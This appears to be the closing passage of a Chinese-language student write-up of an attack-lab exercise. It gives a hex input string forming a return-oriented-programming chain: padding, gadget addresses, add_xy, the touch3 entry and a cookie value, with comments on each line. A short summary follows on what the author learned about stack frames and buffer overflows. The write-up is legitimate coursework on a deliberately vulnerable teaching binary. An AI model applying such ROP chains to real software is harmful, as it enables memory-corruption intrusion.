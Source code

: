 ```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 # 覆盖ret地址，gadget 0的地址
a2 19 40 00 00 00 00 00 # gadget 2的地址
83 13 40 00 00 00 00 00 # gadget 4的地址
30 00 00 00 00 00 00 00 # 第二个参数 0x30
d6 19 40 00 00 00 00 00 # add_xy的地址
a2 19 40 00 00 00 00 00 # gadget 6的地址
fa 18 40 00 00 00 00 00 # touch3的入口
35 39 62 39 39 37 66 61 # cookie的ASCII
```

完结撒花。

# 总结

对栈帧结构了解很多，深入理解了函数栈，以及缓冲区溢出攻击的方式。

不得不感慨国内外CS教育的差距。
